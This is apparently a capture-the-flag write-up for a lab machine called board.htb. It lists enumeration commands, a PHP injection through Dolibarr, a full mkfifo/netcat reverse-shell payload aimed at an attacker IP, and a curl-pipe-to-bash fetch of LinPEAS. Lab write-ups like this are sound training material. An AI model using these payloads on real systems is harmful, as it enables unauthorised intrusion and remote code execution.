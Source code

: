 Steps:

nmap:

```
nmap -sC -sV {target ip}
```

Added the domain and ip to the hosts file:

```
echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

Gobuster to enumerate vhosts:

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://board.htb
```

Uploads a PHP file to HTML input in Dolibarr to check for reverse shell vuln:

```
<?PHP echo system("whoami");?>
```

It is successful!

Run netcat locally:

```
nc -lnvp 4455
```

Use the payload to get the shell:

```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4455 >/tmp/f");?>
```

Run this command to get a more stable shell, sending the output to `/dev/null`

```
 script /dev/null -c /bin/bash
 ```

Download LinPEAS locally, then set up a webserver locally, and curl LinPEAS from the attacking box

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

sudo python3 -m http.server 3000
```

```
curl http://10.10.14.41:3000/linpeas.sh|bash
```


